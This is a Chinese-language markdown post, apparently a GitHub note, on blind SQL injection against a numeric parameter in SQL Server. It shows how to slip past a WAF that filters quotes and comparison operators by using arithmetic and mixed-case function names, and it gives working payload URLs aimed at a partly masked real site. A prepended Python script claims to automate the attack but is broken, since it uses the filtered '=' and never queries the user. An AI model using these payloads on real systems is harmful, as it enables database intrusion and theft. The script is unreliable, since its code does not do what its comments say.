





# 

 记录 一次 SQL Server 数字型注入-绕过 ' , or , and , like , > , < , = 过滤 根据作者思路编写的python脚本

```python
import requests

def calculate_ascii_value(base_url, catid, target_value):
    """
    尝试计算并找到与目标值匹配的 ASCII 字符。
    
    :param base_url: 漏洞 URL 的基础部分，应包含注入点。
    :param catid: 用于构造 payload 的 catid 参数值。
    :param target_value: 目标值，帮助判断是否成功匹配字符。
    :return: 找到的 ASCII 值，如果没有找到则返回 None。
    """
    for ascii_val in range(32, 127):  # 遍历可打印字符的 ASCII 值范围
        # 构造 payload，将 catid 与 ASCII 值进行计算
        payload = f"{catid} + 1 - {ascii_val} = {target_value}"
        
        try:
            # 发送 HTTP 请求并将 payload 作为查询参数
            response = requests.get(f"{base_url}?id={payload}")
            
            # 检查响应中是否包含预期的提示符
            if "expected response indicator" in response.text:
                return ascii_val
        except requests.RequestException as e:
            # 捕捉请求异常，打印错误信息
            print(f"Request failed: {e}")

    return None  # 如果未找到匹配的 ASCII 值，则返回 None


def find_current_user(base_url):
    """
    通过 ASCII 数字型注入来查找当前用户的名称。
    
    :param base_url: 漏洞 URL 的基础部分，应包含注入点。
    """
    ascii_user_name = []  # 用于存储找到的 ASCII 字符
    for i in range(1, 20):  # 假设用户名不会超过 20 个字符
        target_value = 8 + i  # 选择合适的目标值用于匹配
        
        # 调用 calculate_ascii_value 函数找到当前目标值对应的 ASCII 字符
        ascii_val = calculate_ascii_value(base_url, 8, target_value)
        
        if ascii_val is not None:
            # 将找到的 ASCII 值转换为字符并添加到用户名列表
            ascii_user_name.append(chr(ascii_val))
        else:
            # 如果未找到更多的字符，则停止循环
            break
    
    # 拼接所有找到的字符以形成完整的用户名
    user_name = ''.join(ascii_user_name)
    print(f"Identified User Name: {user_name}")


if __name__ == "__main__":
    # 替换为实际的漏洞 URL
    base_url = "http://example.com/vulnerable_endpoint"
    # 查找当前用户名称
    find_current_user(base_url)

```


> ref:[一次 SQL Server 数字型注入-绕过 &#39; , or , and , like , &gt; , &lt; , = 过滤 · 语雀](https://www.yuque.com/pmiaowu/hcy2bz/zi2muq)

作者：P喵喵

0x01 前言  

注入点是 sql server数字型注入  
   
过滤了  ' , or ,  and , like , > , < , =   还有所有函数  
   
函数的话，可以使用  大小写绕过  
例如：  asCii()  这样即可绕过  
   
因为没有  '  所以也不能使用字符串来匹配数据了  
并且因为有WAF所以不能使用   or and      
所以要闭合代码的话，只能通过 +, -, *, /  这四个玩意来闭合代码了。  
   
整个注入的难点就是如何在闭合的时候如何保证可以正常布尔出数据  

难点虽然是难点但是还是有办法解决的  

0x02 解决方法  

因为不能使用英文匹配数据，所以我使用的方法是：  

先定一个自己认为 为真得数据  
例如，我得目标 catid=8 的时候，会输出文章得标题，那么我就认为这个就是为真  

接着吧数据通过 ascii函数 转换成 数字  
最后把 catid 每次加1 然后减去ascii函数返回的数据  
如果加到 catid-ascii函数返回的数据 = 8 的时候就说明注入成功了  

0x03 实战例子  

为了我得狗命，域名修改为 https://xxx.test.cn  

注入url：https://xxx.test.cn/weixin/zsw/list.aspx?catid=8  
注入参数：catid  

Sql server 数据库  
跑的 user 前两位 = 110, 99 =  nc  

0x03.1 正常得情况下  

正常的情况下  

0x03.2 User 第一位数据  

User 第一位数据  
Payload：https://xxx.test.cn/weixin/zsw/list.aspx?catid=118-(asCii(RIGHT(user,1)))  

有数据的 id 是 8      
所以 118-8=110      
user 第一位 = ascii 110  = 十进制 n  

0x03.3 User 第二位数据  

User 第二位数据  
Payload：https://xxx.test.cn/weixin/zsw/list.aspx?catid=107-(asCii(RIGHT(user,2)))  



有数据的 id 是 8      
所以 107-8=99  
user 第二位 = ascii  99   = 十进制 c


